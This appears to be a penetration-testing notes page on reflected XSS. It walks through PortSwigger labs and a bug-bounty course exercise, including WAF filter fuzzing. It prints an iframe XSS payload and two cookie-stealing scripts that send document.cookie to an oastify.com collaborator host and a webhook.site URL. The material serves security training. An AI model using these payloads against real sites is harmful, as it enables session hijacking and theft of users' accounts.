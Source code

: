 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="success" %}
**Reflected XSS** is a type of Cross-Site Scripting where the malicious script is reflected off a web server and executed in a user's browser when they click a link or submit a form. This type of XSS is typically delivered via email or another communication method.
{% endhint %}

## Filter Bypass

> The example below is based on PortSwigger's [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) lab.

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process we did for tags to find allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> The example below is based on PortSwigger's [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) lab.

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator (available only in Pro) or [Webhook](https://webhook.site/) (free), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript

